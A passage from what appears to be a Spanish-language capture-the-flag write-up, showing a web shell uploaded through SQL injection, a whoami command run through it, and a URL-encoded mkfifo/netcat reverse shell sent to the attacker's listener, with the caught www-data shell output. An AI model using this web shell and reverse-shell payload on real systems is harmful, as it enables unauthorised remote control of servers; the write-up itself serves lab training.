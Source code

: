 ![shell_upload](shell_upload.png)

Nos salió un error, pero veamos si se subió...

```bash
╰─ curl http://10.10.229.233/shell.php\?cmd\=whoami                                             ─╯
1	 www-data
 	3	4
```

¡Sí! ¡Ahora pasamos de `SQLI` a `RCE`!

¡Establezcamos una `conexión de shell reversa` y comencemos la fase de reconocimiento nuevamente para llegar a `root`!

```bash
[Terminal 1]
╰─ curl http://10.10.229.233/shell.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.0.244%201337%20%3E%2Ftmp%2Ff

------------------------------------------------------------------------------------------

[Terminal 2]
╰─ nc -nlvp 1337                                                                                ─╯
listening on [any] 1337 ...
connect to [10.9.0.244] from (UNKNOWN) [10.10.229.233] 43490
sh: 0: can't access tty; job control turned off
$ id; whoami; pwd; hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/html
hackerdog
```